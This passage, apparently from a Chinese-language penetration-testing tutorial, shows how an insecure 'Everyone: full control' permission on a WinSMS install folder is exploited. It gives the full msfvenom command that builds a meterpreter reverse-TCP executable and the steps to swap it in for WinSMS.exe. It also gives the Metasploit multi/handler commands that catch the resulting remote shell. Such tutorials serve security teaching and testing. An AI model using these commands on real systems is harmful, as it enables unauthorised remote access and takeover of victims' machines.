 输出将如下截图所示：

![如何做到...](img/image_09_023.jpg)

1.  正如我们所看到的，有`Everyone`访问权限，并且拥有完全权限。这是一个严重的失误，这意味着任何有权访问系统的人都可以修改该文件夹中的任何文件。攻击者几乎可以做任何事情。攻击者可以将他的恶意文件与 WinSMS 的可执行文件放在一起，甚至替换 DLL 文件并执行他的命令。出于演示目的，我们将放置一个我们将从 Kali 创建的反向 shell，并等待连接。让我们开始。在您的 Kali 终端中，输入以下内容创建一个反向`exe` shell：

```
    msfvenom -p windows/meterpreter/reverse_tcp       LHOST=192.168.157.151 LPORT=443 -f exe > WinSMS.exe

    ```

输出将如下截图所示：

![如何做到...](img/image_09_024.jpg)

1.  我们下载这个可执行文件，并将其替换为安装软件的文件夹中的`WinSMS.exe`文件：![如何做到...](img/image_09_025.jpg)

现在我们用新创建的 meterpreter 文件替换 WinSMS 文件：

![如何做到...](img/image_09_026.jpg)![如何做到...](img/image_09_027.jpg)

1.  现在我们已经放置了文件，让我们在 Metasploit 上打开一个监听器，等待看看当用户执行文件时会发生什么。在终端中输入以下命令设置 Metasploit 监听器：

```
          msfconsole
          use exploit/multi/handler
          set payload windows/meterpreter/reverse_tcp
          set lhost 192.168.157.151
          set lport 443
          exploit

    ```

输出将如下截图所示：

![如何做到...](img/image_09_028.jpg)
